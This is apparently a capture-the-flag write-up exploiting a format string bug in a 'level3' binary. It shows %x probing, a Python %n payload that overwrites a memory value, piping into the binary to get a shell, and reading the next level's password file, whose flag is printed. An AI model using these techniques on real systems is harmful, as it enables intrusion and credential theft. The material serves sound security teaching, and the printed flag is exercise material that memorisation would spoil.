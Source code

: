 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb: \
```shell
$ # find where our buffer is written in memory:
$ echo "AAAA %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141

$ # we know we need to write '64' at address '0x804888c', so we can use the `%n` modifier with 64 bytes before in the string to write to the address:
$ python -c 'print "\x8c\x88\x04\x08" + "\x90" * 60 + "%4$n" > /tmp/exploit
                    |_ write 4b (addr)   |_ write 60 bytes

$ # the binary will execute system if the address 0x804888c contains "64", as we need to pipe into the binary we still need to keep stdin open to inject commands or the shell will exit prematurely:
$ cat /tmp/exploit - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

